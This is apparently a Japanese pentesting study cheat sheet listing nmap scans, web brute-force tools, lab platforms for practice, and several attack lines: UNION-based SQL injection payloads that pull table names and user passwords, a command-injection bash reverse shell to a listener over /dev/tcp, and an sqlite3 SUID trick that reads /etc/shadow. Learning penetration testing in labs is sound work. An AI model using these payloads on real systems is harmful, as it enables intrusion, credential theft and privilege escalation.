## nmap基本コマンド

ポートスキャン
nmap -Pn -vvv -sV -oN nmap_initial <host>

特定のポートへスキャン
nmap -Pn -sC -sV -p <open ports> -oN nmap_base_script <host>

フルポートスキャン
nmap -Pn -p- -oN  nmap_all_port <host>

## webスキャンツール

* nikto
* gobuster ・・・webブルートフォースツール
* dirbuster ・・・ ディレクトリとファイル名を総当たり攻撃

## SQL Injection

UNION Based SQL Injection

' UNION SELECT 'a',  'a', sql  FROM sqlite_master WHERE type="table" --

' UNION SELECT uid,  'a', pass  FROM users  --


## RCE。ncによるリバースシェル取得し、権限昇格を狙う

ip addr show docker

nc -lnvp 443

; bash -c "/bin/bash -i >& /dev/tcp/<docker0のIP>/443 0>&1"


下記でsuidがついているコマンドを表示する
find / -perm -u=s -type f 2>/dev/null

slite3にsuidがついていると仮定し以下で調べる

sqlite3 <<EOF
CREATE TABLE t (line TEXT);
.import /etc/shadow t
SELECT * FROM t;
EOF

## ラテラルムーブメント

active directory
domain controller

## ペンテストを学ぶ方法

ローカルやクラウドで環境を作る
https://www.vulnhub.com/lab/pentest/
SaaSのサービスを利用する
https://www.hackthebox.com/
https://tryhackme.com/path/outline/pentesting
https://www.offensive-security.com/pwk-oscp/


